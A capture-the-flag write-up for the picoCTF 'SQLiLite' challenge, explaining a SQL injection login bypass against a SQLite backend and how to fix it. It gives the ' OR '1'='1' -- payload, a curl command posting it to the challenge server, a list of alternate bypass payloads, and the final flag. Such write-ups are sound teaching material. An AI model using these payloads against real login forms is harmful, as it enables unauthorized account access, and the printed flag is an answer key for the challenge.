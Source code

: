 # SQLiLite

## Description:

>Can you login to this website?


**Challenge:** Login page where putting `admin` as username and the payload `' OR '1'='1' -- ` in the password field authenticates you as admin and returns the flag.

---

## Objective

This writeup shows how a poorly written login SQL query can be bypassed using a classic injection payload that makes the `WHERE` clause always true. I demonstrate the exact payload used, why it works, how to reproduce it locally against an equivalent SQLite query, and the secure fixes to prevent it.

> Result: authentication bypass → access to the admin account → retrieve flag.

---

## Target & Setup (assumptions)

* Target is a web login form with `username` and `password` fields.
* Backend uses SQLite and constructs SQL queries by concatenating user input without proper parameterization, e.g.:

```sql
SELECT * FROM users
WHERE username = '<USERNAME>' AND password = '<PASSWORD>';
```

* The `users` table contains an `admin` row with a secret flag accessible after login.


---

## Vulnerability description (why this is vulnerable)

When the application builds SQL by directly inserting untrusted input into the query string, an attacker can inject SQL syntax that changes the semantics of the query. If the injected expression makes the `WHERE` condition always true, the database will return a row (often the first row) and the app will consider you authenticated.

---

## The Payload & Why it Works

Payload used in password field:

```
' OR '1'='1' --
```

Step-by-step transformation (example):

1. Original (safe inputs):
   `username = 'admin'`, `password = 'hunter2'`
   Query becomes:

   ```sql
   SELECT * FROM users WHERE username = 'admin' AND password = 'hunter2';
   ```
2. Inject password: `' OR '1'='1' -- `
   Query becomes (substituting `PASSWORD`):

   ```sql
   SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1' -- ';
   ```

   After `--`, the rest is a comment and ignored. Operator precedence yields:

   ```
   (username = 'admin' AND password = '') OR '1'='1'
   ```

   `'1'='1'` is always true ⇒ whole WHERE is true ⇒ query returns rows (often the first user row) ⇒ application assumes successful login.

**Important SQLite note:** `--` starts a comment in SQLite **only if followed by a space** or newline. So include a space: `-- `.

---

## Exploitation Steps (manual via web form)

![website](./img/website.png)

enter the credentials

![loggin](./img/loggedin.png)


---

## using curl

If the form is `POST /login` with fields `username` and `password`, you can replicate:

```bash
curl -s -X POST "http://saturn.picoctf.net:50230/login.php" \
  -d "username=admin" \
  -d "password=' OR '1'='1' -- "
```

![curl](./img/curl.png)


## using Brupsiut


![result](./img/result.png)

---


## Variations & Alternate Payloads

Depending on how inputs are quoted/escaped, other payloads may be needed:

* `admin' -- `
* `' OR 1=1 -- `
* `admin' OR '1'='1`
* If single quotes are escaped, try double quotes or comment style `/* ... */`:

  * `"' OR \"1\"=\"1\" -- ` (if double quotes used)
* If the app removes `--`, use `') OR ('1'='1` to close sub-expressions.

Always remember to adjust for the exact query construction.

---

## Root cause

* **String concatenation of untrusted user input into SQL queries**.
* No input sanitization, no prepared statements, no parameterized queries.
* Application trusts the presence of a returned row as proof of correct credentials.

---

## Fixes / Mitigations (what to do to prevent this)

**1) Use parameterized queries / prepared statements (recommended):**

**Python (sqlite3)**

```python
# safe
cur.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

**PHP (PDO)**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :u AND password = :p");
$stmt->execute([':u' => $username, ':p' => $password]);
```

**Node.js (sqlite3)**

```js
db.get("SELECT * FROM users WHERE username = ? AND password = ?", [username, password], cb);
```

**2) Use proper password hashing**

* Never store plaintext passwords. Use bcrypt / Argon2 with a per-user salt.
* Compare hashed values server-side (use constant-time compare).

**3) Least privilege & safe authentication logic**

* Do not rely on "row exists" semantics without additional checks.
* Ensure authentication uses secure session management after verification.

**4) Input validation & WAF are supplementary**

* Validation can reduce accidental injection, but the primary defense must be prepared statements.

---


final flag would be `picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`